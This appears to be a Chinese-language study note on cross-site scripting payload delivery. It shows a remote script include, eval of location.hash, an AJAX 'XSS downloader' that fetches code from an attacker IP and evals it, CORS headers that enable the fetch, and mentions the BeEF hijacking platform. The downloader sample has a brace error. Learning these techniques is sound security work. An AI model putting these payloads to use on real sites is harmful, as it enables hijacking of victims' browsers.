 #### shellcode的调用

shellcode就是利用漏洞所执行的代码，完整的xss攻击会将shellcode存放在一定的地方，然后漏洞触发，调用shellcode

1. 远程调用js

   将js代码单独放在一个文件夹内，存放在一个可以网络访问到的服务器上，通过http协议远程加载该脚本，如：

   `<script src="IP地址/XSS-TEST/normal/xss.js"></script>`

   这是最常见的方式，XSS.JS代码内容：`alert('xss.js');`

2. windows.location.hash

   我们也可以使用js中的windows.location.hash方法获取浏览器的URL地址栏的XSS代码，windows.location.hash会获取URL中 # 后面的内容，例如`http://domain.com/index.php#AJEST`，windows.location.hash的值就是#AJEST

   构造的代码如下：

   `?submit=submit&xsscode=<script>eval(location.hash.substr(1))</script>#alert(/This is windows.location.hash/)`，提交到测试页面xss.php

3. XSS downloader

   XSS下载器就是将XSS代码写到网页中，然后通过AJAX技术，取得网页中的XSS代码。在使用XSS Downloader之前需要一个我们自己的页面，xss_downloader.php，内容如下：

   `~~~~BOF|alert(/xss/)|EOF~~~~~~~~~~（波浪线代替html代码）`

   常见的下载器代码如下：

   `<script>
   function XSS() {
   	if (window.XMLHttpRequest) {
   		a = new XMLHttpRequest() ;
   	}else if (window.ActiveXObject) {
   		a = new ActiveXObject( "Microsoft.XMLHTTP");
   	else {return;}
   	a.open('get',' http://IP/目录/xss_downloader.php',false) ;
   	a.send() ;
   	b=a.responseText;
   	eval(unescape(b.substring(b.indexOf('BOF|')+4,b.indexOf('|EOF'))));}
   XSS() ;
   </script>`

   - 注意：Ajax 受同源策略的限制，为了解决这个问题，我们需要在服务端代码中加入几句代码：

     `<?php`

     `header ('Access-Control-Allow-Origin: *') ;`

     `header ('Access-Control-Allow-Headers: Origin, X-Requested-with， Content -Type，Accept') ;`

     `?>`

4. 备选存储技术

   我们可以把shellcode存储在客户端本地域中，比如HTTP cookie、flash共享对象、userdata、localstorage等

5. XSS神器，beef，是一款XSS漏洞利用平台，使用beef可以进行浏览器劫持

XSS测试，终极测试代码：`<script script "' OOnn>`，将代码提交到服务器验证是否过滤引号和尖括号，确定闭合方式，是否替换关键字，是否替换大小写。查看页面源代码后判定修改代码